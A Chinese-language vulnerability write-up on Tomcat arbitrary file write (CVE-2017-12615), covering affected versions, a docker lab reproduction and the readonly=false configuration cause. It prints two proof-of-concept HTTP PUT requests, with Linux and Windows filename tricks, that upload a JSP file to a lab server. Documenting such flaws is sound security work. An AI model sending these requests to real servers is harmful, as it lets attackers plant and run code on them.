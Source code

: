 ```yaml
---
author: YOUZAI
title: Tomcat 任意文件写入漏洞（CVE-2017-12615）
date: 2023/06/20
categories:
 - 漏洞文库
tags:
 - Tomcat
---
```


## 漏洞简介

当 Tomcat 启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。

::: info 影响版本

- [x] Apache Tomcat 7.0.0 ~ 7.0.79（7.0.81 修复不完全）

:::

## 漏洞复现

使用 docker 搭建环境：

![](/images/微信图片_20220905173358.png)

使用 PUT 方法将 JSP 文件写入服务器：

![](/images/微信图片_20220905173714.png)

访问写入的文件：

![](/images/微信图片_20220905173806.png)

POC：

* Linux

```http
PUT /test.jsp/ HTTP/1.1
Host: 192.168.43.127:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 54

<%
	String str = "hello world";
	out.print(str);
%>
```

* Windows

```http
PUT /test.jsp::$DATA HTTP/1.1
Host: 192.168.43.127:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 54

<%
	String str = "hello world";
	out.print(str);
%>
```

## 漏洞原理

漏洞本质是 Tomcat 配置了可写（readonly=false），导致我们可以往服务器写文件：

```ini
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```